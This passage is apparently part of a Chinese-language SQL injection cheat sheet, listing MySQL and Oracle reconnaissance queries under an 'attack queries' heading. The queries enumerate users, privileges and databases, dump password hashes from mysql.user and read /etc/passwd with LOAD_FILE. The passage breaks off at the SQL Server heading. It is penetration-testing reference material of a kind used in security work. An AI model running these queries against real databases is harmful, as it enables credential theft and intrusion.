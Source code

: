 **0x04** **攻击查询** 
------------------

### **1、信息收集**

收集有关任何测试环境的信息通常很有价值; 版本号，用户帐户和数据库都有助于升级漏洞。以下是常见的方法。

`*`需要特权用户

#### **MySQL**

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>版本</td><td align="center">SELECT @@version</td></tr><tr><td>单个用户</td><td align="center">SELECT user()&nbsp;<br>SELECT system_user()</td></tr><tr><td>所有用户</td><td align="center">SELECT user FROM mysql.user&nbsp;<br><code>*&nbsp;</code>SELECT Super_priv FROM mysql.user WHERE user= 'root' LIMIT 1,1</td></tr><tr><td>表</td><td align="center">SELECT table_schema, table_name FROM information_schema.tables</td></tr><tr><td>列</td><td align="center">SELECT table_name, column_name FROM information_schema.columns</td></tr><tr><td>数据库</td><td align="center">SELECT schema_name FROM information_schema.schemata</td></tr><tr><td>当前数据库名称</td><td align="center">SELECT database()</td></tr><tr><td>查询其他数据库</td><td align="center">USE [database_name]; SELECT database(); &nbsp;<br>SELECT [column] FROM [database_name].[table_name]</td></tr><tr><td>列数</td><td align="center">SELECT count(*) FROM information_schema.columns WHERE table_name = '[table_name]'</td></tr><tr><td>DBA 账户</td><td align="center">SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'</td></tr><tr><td>密码哈希</td><td align="center">SELECT host, user, password FROM mysql.user</td></tr><tr><td>Schema</td><td align="center">SELECT schema()</td></tr><tr><td>数据路径</td><td align="center">SELECT @@datadir</td></tr><tr><td>读取文件</td><td align="center"><code>*</code>&nbsp;SELECT LOAD_FILE('/etc/passwd')</td></tr></tbody></table>

#### **Oracle**

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>版本</td><td align="center">SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';<br>SELECT banner FROM v$version WHERE banner LIKE 'TNS%';<br>SELECT version FROM v$instance;</td></tr><tr><td>单个用户</td><td align="center">SELECT user FROM dual</td></tr><tr><td>所有用户</td><td align="center">SELECT username FROM all_users ORDER BY username;<br><code>*&nbsp;</code>SELECT name FROM sys.user$;</td></tr><tr><td>表</td><td align="center">SELECT table_name FROM all_tables;&nbsp;<br>SELECT owner, table_name FROM all_tables;</td></tr><tr><td>通过列名称获取表</td><td align="center">SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE '%PASS%';</td></tr><tr><td>列</td><td align="center">SELECT column_name FROM all_tab_columns WHERE table_name = 'blah'; &nbsp;<br>SELECT column_name FROM all_tab_columns WHERE table_name = 'blah' and owner = 'foo';</td></tr><tr><td>当前数据库名称</td><td align="center">SELECT global_name FROM global_name;<br>SELECT name FROM V$DATABASE;&nbsp;<br>SELECT instance_name FROM V$INSTANCE;<br>SELECT SYS.DATABASE_NAME FROM DUAL;</td></tr><tr><td>数据库</td><td align="center">SELECT DISTINCT owner FROM all_tables;</td></tr><tr><td>DBA 账户</td><td align="center">SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = 'YES';</td></tr><tr><td>特权</td><td align="center">SELECT * FROM session_privs;(Retrieves Current Privs)<br><code>*</code>&nbsp;SELECT * FROM dba_sys_privs WHERE grantee = 'DBSNMP';<br><code>*</code>&nbsp;SELECT grantee FROM dba_sys_privs WHERE privilege = 'SELECT ANY DICTIONARY';<br>SELECT GRANTEE, GRANTED_ROLE FROM DBA_ROLE_PRIVS;</td></tr><tr><td>DB 文件的位置</td><td align="center">SELECT name FROM V$DATAFILE;</td></tr><tr><td>主机名，IP 地址</td><td align="center">SELECT UTL_INADDR.get_host_name FROM dual;<br>SELECT host_name FROM v$instance;<br>SELECT UTL_INADDR.get_host_address FROM dual; (IP 地址)<br>SELECT UTL_INADDR.get_host_name('10.0.0.1') FROM dual; (主机名)</td></tr></tbody></table>

#### **SQL Server**
